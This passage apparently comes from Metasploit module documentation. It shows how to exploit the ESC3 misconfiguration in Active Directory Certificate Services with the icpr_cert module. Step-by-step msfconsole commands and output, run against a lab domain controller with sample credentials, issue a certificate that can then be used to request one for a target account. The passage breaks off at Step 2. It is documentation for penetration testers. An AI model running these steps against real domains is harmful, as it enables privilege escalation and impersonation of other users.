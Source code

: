 ```msf
[*] Auxiliary module execution completed
msf auxiliary(admin/dcerpc/icpr_cert) >
```

### Issue A Certificate With The *Certificate Request Agent* EKU (AKA ESC3)
In this scenario, an authenticated user exploits a misconfiguration allowing them to issue a certificate from a template
that either contains the **Certificate Request Agent** EKU.

The user must know:

* A vulnerable certificate template, in this case `ESC3-Test`.
* A target account, in this case `MSFLAB\smcintyre`.

The steps are identical to ESC2. First a certificate is requested using the vulnerable template. Then it is used to
request another certificate on behalf of the target account.

#### Step 1
The first step is to issue a certificate using the vulnerable certificate template.

```msf
msf > use auxiliary/admin/dcerpc/icpr_cert
msf auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf auxiliary(admin/dcerpc/icpr_cert) > set SMBUser aliddle
SMBUser => aliddle
msf auxiliary(admin/dcerpc/icpr_cert) > set SMBPass Password1!
SMBPass => Password1!
msf auxiliary(admin/dcerpc/icpr_cert) > set CA msflab-DC-CA
CA => msflab-DC-CA
msf auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC3-Test
CERT_TEMPLATE => ESC3-Test
msf auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 192.168.159.10

[*] 192.168.159.10:445 - Connecting to ICertPassage (ICPR) Remote Protocol
[*] 192.168.159.10:445 - Binding to \cert...
[+] 192.168.159.10:445 - Bound to \cert
[*] 192.168.159.10:445 - Requesting a certificate...
[+] 192.168.159.10:445 - The requested certificate was issued.
[*] 192.168.159.10:445 - Certificate UPN: aliddle@msflab.local
[*] 192.168.159.10:445 - Certificate SID: S-1-5-21-3402587289-1488798532-3618296993-1106
[*] 192.168.159.10:445 - Certificate stored at: /home/smcintyre/.msf4/loot/20221107154656_default_unknown_windows.ad.cs_831021.pfx
[*] Auxiliary module execution completed
msf auxiliary(admin/dcerpc/icpr_cert) >
```

#### Step 2
The second step is to run the module a second time, using the certificate template to request a certificate on behalf of
the target user. The `CERT_TEMPLATE` option is updated to one allowing authentication such as the default `User`
template.


[KB5014754]: https://support.microsoft.com/en-us/topic/kb5014754-certificate-based-authentication-changes-on-windows-domain-controllers-ad2c23b0-15d8-4340-a468-4d4f3b188f16
